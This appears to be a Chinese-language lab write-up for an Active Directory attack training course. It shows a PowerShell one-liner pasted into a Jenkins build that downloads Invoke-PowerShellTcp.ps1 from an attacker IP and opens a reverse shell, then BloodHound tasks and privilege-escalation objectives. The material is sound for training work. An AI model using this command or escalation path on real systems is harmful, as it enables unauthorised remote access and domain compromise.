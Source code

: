 ```
![image-20220306190436222](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306190436222.png)

把命令：

```powershell.exe iex (iwr http://172.16.100.66/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.66 -Port 443```

填入command，并且点击保存

![image-20220306190527275](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306190527275.png)





点击Build Now，收到反弹回来的shell

![image-20220306190757811](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306190757811.png)



# Learning Objective 6:
Task
● Setup BloodHound and identify a machine where studentx has local administrative access.

![image-20220306200024291](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306200024291.png)



从 BloodHound属于RDPUSERS组，这个组的成员对DCORP-ADMINSRV这台计算机有local administrative权限

所有student都在RDPUSERS组

![image-20220306200346148](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306200346148.png)



# Learning Objective 7

```Task
● Domain user on one of the machines has access to a server where a domain admin is logged in.
Identify:
− The domain user
− The server where the domain admin is logged in.
● Escalate privileges to Domain Admin
− Using the method above.
−  Using derivative local admin 
```
